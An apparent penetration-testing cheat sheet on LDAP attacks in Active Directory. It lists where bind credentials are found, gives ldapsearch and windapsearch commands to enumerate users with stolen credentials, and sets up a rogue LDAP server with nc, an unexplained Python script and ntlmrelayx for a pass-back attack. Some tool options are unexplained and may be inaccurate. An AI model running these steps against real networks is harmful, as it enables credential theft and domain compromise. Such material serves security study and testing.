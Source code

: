 ## LDAP Bind Credentials

LDAP bind credentials can be found in various places and provide direct access to the domain.

### Finding LDAP Bind Credentials

```bash
# Common locations for LDAP credentials
- Web application config files (.config, .xml, .json, .yml)
- Registry keys (on workstations with LDAP-integrated apps)
- Environment variables
- Connection strings in deployed applications
- Clear-text configuration files in shared folders
- Service configuration files
```

### Testing LDAP Bind Credentials

```bash
# Verify LDAP binding works
ldapsearch -x -h 10.10.10.100 -D "cn=ldapuser,cn=Users,dc=domain,dc=local" -w "password" -b "dc=domain,dc=local" -s base "(objectClass=*)"

# Enumerate users using discovered credentials
ldapsearch -x -h 10.10.10.100 -D "cn=ldapuser,cn=Users,dc=domain,dc=local" -w "password" -b "dc=domain,dc=local" "(objectClass=user)" sAMAccountName

# Using Python for LDAP enumeration with credentials
python3 windapsearch.py --dc-ip 10.10.10.100 -d domain.local -u ldapuser -p password -U
```

## LDAP Pass-Back Attack

LDAP Pass-Back attacks exploit misconfigured LDAP integrations that connect back to attacker-controlled LDAP servers.

### Identifying Vulnerable Systems

```
- Applications configured to use LDAP authentication
- Network devices (routers, switches) with LDAP authentication
- Printers and IoT devices with LDAP integration
- Web applications with misconfigured LDAP settings
```

### Setting Up Rogue LDAP Server

```bash
# Using nc to see incoming connection attempts
nc -lvnp 389

# Using Python3's ldaptor for a minimal LDAP server
pip3 install ldaptor
python3 rogue_ldap_server.py

# Using ntlmrelayx to capture NTLM hashes
ntlmrelayx.py -t ldap://10.10.10.100 --ldap-relay-port 389
```
